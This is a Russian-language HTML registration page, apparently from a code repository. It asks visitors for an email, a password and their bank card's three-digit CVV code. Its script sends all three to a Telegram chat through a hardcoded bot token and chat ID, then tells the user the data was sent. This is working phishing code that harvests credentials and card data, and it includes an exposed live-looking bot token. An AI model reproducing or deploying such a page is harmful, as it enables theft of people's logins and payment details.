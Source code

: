 <html lang="ru">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Регистрация</title>
    <style>
      form{
        display: flex;
        flex-direction: column;
        width: 250px;
        margin-left: 100px;
      }
      h1{
        margin-left: 100px;
      }
      button{
        margin-top: 10px;
        padding: 10px;
        background: green;
      }
    </style>
</head>
<body>
    <h1>Регистрация</h1>
    <form id="registrationForm">
        <p></p>
        <label for="text">Email</label>
        <input type="text" id="email" name="username" required pattern="[a-zA-Z0-9._%+-]+@[a-zA-Z0-9.-]+.[a-zA-Z]{2,}" title="Введите корректный email (только латиница)">>
        <br>
        <p></p>
        <label for="text">Password</label>
        <input type="text" id="pass" name="email" required onkeypress="return /[a-zA-Z0-9]/.test(event.key)" title="Пароль должен содержать только латинские буквы и цифры">
        <p></p>
        <label for="cvv">cvv код(3-х значный код на обратной стороне карты)</label>
        <input type="text" id="cvv" name="cvv" required maxlength="3" oninput="this.value = this.value.replace(/[^0-9]/g, '')">>
        <br>
        <button type="submit">Зарегистрироваться</button>
        
    </form>

    <script>
        const form = document.getElementById('registrationForm')
        
        let submit = addEventListener('submit', e => {
          e.preventDefault() 
          
          const username = document.getElementById('pass').value;
          const email = document.getElementById('email').value;
          if (!email.includes('@')) {
                alert('Пожалуйста, введите корректный адрес электронной почты (должен содержать @).');
                return;
            }
          const cvv = document.getElementById('cvv').value;
            
          const token = '7942332820:AAFC2P1_9T8USat2LkVF_cXqtqCaBqs2O4g';
          const chatId = -1002372284940 
          const message = `Новая регистрация:\n Почта:${email}\n Пароль:${username}\n cvv: ${cvv}`;
          const url = `https://api.telegram.org/bot${token}/sendMessage?chat_id=${chatId}&text=${encodeURIComponent(message)}`;
          
          
          fetch(url) 
          .then(response => {
            if (response) {
              
              alert('Данные успешно отправлены в Telegram!');
            } else {
              console.log('error');
            }
          })
          .catch(error => {
            console.error('Ошибка:', error);
            alert('Ошибка при отправке данных.');
          });
        });
    </script>
</body>
</html>

   
